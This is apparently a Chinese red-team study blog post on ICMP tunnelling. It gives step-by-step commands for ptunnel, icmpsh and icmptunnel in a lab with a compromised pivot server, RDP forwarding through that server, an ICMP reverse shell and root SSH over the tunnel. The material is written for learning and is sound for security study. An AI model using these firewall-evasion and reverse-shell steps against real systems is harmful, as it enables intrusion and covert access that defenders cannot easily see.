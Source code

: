 ```yaml
---
title: 【内网学习笔记】6、ICMP隧道工具使用
date: 2021-04-07 18:36:05
id: 210407-183605
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_15-43-51.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、介绍

在内网中，如果攻击者使用 HTTP、DNS 等应用层隧道都失败了，那么或许可以试试网络层的 ICMP 隧道，ICMP 协议最常见的场景就是使用 ping 命令，而且一般防火墙都不会禁止 ping 数据包。

因此我们便可以将 TCP/UDP 数据封装到 ICMP 的 ping 数据包中，从而绕过防火墙的限制。

## 2、建立 ICMP 隧道工具 

用于建立 ICMP 隧道的工具常见有：ptunnel、icmpsh、icmptunnel 等

### ptunnel

ptunnel 全称 PingTunnel，Kali 下自带该工具，Linux 下安装过程如下：

```
yum -y install byacc
yum -y install flex bison

#安装libpcap依赖库
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -xzvf libpcap-1.9.0.tar.gz
cd libpcap-1.9.0
./configure
make && make install

#安装PingTunnel
wget http://www.cs.uit.no/~daniels/PingTunnel/PingTunnel-0.72.tar.gz
tar -xzvf PingTunnel-0.72.tar.gz
cd PingTunnel
make && make install
```

ptunnel 常用命令介绍：

```
-p: 指定跳板服务器 IP 地址
-lp: 监听本地 TCP 端口
-da: 指定访问目标的内网 IP 地址
-dp: 指定访问目标的端口
-m: 设置隧道最大并发数
-v: 输入内容详细级别（-1到4，其中-1为无输出，4为全部输出）
-udp: 切换使用UDP代替ICMP，代理将监听端口53（必须是 root 权限）
-x: 设置隧道密码，防止滥用（客户端和代理端必须相同）
```

目前有这样的一个场景，当前已经拿下了一台外网 Web Linux 服务器，想通过它利用 ICMP 协议连接内网的一台已经开启远程桌面的 Windows ，网络结构简化如下。

```
Kali 攻击机       172.16.214.6 (外网)
|
|
Linux Web 跳板机  172.16.214.5  (外网)
|                192.168.7.5   (内网)
|
|
Win RDP 目标机    192.168.7.110 (内网)
```

在 Kali 攻击机上执行以下命令

```
ptunnel -p 172.16.214.5 -lp 1080 -da 192.168.7.110 -dp 3389 -x teamssix
```

```
-p  指定跳板机外网IP
-lp 指定本机的监听端口
-da 指定目标机的内网IP
-dp 指定目标机的端口
-x 设置隧道密码
```

在 Linux Web 跳板机上执行以下命令

```
ptunnel -x teamssix
```

之后访问 Kali 攻击机 172.16.214.6 的 1080 端口就会连接到 Win RDP 目标机 192.168.7.110 的 3389 端口了，不过实测发现这种方法有些不稳定。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_14-46-46.png)

### icmpsh

icmpsh 使用很简单，直接在 github 上下载，运行时不需要管理员权限，但是在使用时需要关闭本地系统的 ICMP 应答，不然 shell 的运行会不稳定。

```
git clone https://github.com/inquisb/icmpsh.git #下载工具
apt-get install python-impacket # 安装依赖，或者 pip2 install impacket
sysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答
```

icmpsh 常用命令介绍：

```
-t host            发送ping请求的主机ip地址，即攻击机的IP [该命令必须存在]
-d milliseconds    请求时间间隔（毫秒）
-o milliseconds    响应超时时间（毫秒）
-s bytes           最大数据缓冲区大小（字节）
```

目前有这样的一个场景，攻击机能通过 ICMP 协议访问到目标主机，但是目标上有防火墙，拒绝了敏感端口比如 22、3389 端口的访问，这个时候可以使用 icmpsh 利用 ICMP 协议建立反向 shell

```
攻击机 IP：172.16.214.6
目标机 IP：172.16.214.2
```

在攻击机上运行：

```
python2 icmpsh_m.py 172.16.214.6 172.16.214.2
```

在目标机上运行

```
./icmpsh.exe -t 172.16.214.6
```

此时在攻击机上可以看到通过 icmp 协议建立的 shell

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_15-43-51.png)

### icmptunnel

 icmptunnel 的优势在于可以穿过状态防火墙或 NAT，同样在 github 上进行下载，值得注意的是该工具只有 Linux 版。

```
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```

目前有这样的一个场景，攻击者为 Linux，但由于目标存在状态防火墙或者使用了 NAT 导致无法获得 shell，此时可以通过 icmptunnel 绕过限制。

```
攻击机 IP：172.16.214.6
目标机 IP：172.16.214.5
```

在攻击机上运行：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all		# 禁用 ICMP echo 回复，防止内核自己对ping包进行响应
./icmptunnel -s	# 开启服务端模式
```

在攻击机上新开启一个终端运行：

```
/sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.1)
```

在目标机上运行：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
./icmptunnel 172.16.214.6
```

在目标机上新开启一个终端运行：

```
/sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0	# 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.2)
```

至此，已经通过 ICMP 建立了一个点对点隧道。

在攻击机上，尝试通过 ssh 进行连接，可以看到通过刚才建立的隧道成功连接到目标机。

```
ssh root@10.0.0.2
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_16-35-09.png)

> 参考链接：
>
> [https://xz.aliyun.com/t/7875](https://xz.aliyun.com/t/7875)
>
> [https://www.freebuf.com/sectool/210450.html](https://www.freebuf.com/sectool/210450.html)
>
> [https://xiaix.me/li-yong-icmp-sui-dao-chuan-tou-fang-huo-qiang/](https://xiaix.me/li-yong-icmp-sui-dao-chuan-tou-fang-huo-qiang/)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)